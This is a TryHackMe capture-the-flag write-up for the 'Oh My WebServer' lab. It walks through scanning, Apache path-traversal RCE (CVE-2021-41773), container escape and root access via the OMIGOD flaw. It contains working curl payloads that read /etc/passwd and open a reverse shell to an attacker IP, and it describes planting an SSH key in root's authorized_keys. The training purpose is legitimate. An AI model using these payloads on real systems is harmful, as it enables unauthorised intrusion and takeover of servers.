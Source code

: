 # Oh My WebServer TryHackMe Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](2.png)

## Enumeration
We access the website and find this page of an active web server:

![](3.png)

We launch **dirsearch** to search for existing directories or files that may be relevant for other attacks.

![](4.png)


## Exploitation
Exploited vulnerability CVE-2021-41773

#### PoC
```bash 
curl -v 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"
```

![](5.png)

### Reverse shell
```bash
curl -v 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.8.246.129/443 0>&1' -H "Content-Type: text/plain"
```
![](6.png)

### Attack Machine
![](7.png)

It looks like we are on a docker machine and we will need to exit the docker and connect to the host machine.

## Privilege Escalation
There is a script in "*/tmp*"

![](8.png)

The file includes a github to a CVE, reading about this CVE allows privilege escalation on the system.

### Exploit: [https://github.com/midoxnet/CVE-2021-38647](https://github.com/midoxnet/CVE-2021-38647)

#### PoC

![](9.png)

We list the root directory, we could "cheat" and read the flag directly, but the idea is to exploit the vulnerability and get privilege escalation as root.

![](10.png)

We see that the "*id_rsa*" file does not exist, but the "*authorized_keys*" file does exist, remember that the machine has the **SSH** service open, so we will take advantage of the vulnerability to transfer our public key to the file and enter by **SSH** with the "*root*" user.
![](11.png)


We put our public key in the file "*authorized_keys*" exploiting the vulnerability "**OMIGOD**".
![](12.png)

We connect via **SSH** with our private key and read the root flag.
![](13.png)

I almost forgot! We still need to identify the user flag, let's do a **find** in the root directory and we will get it easily.
![](14.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)

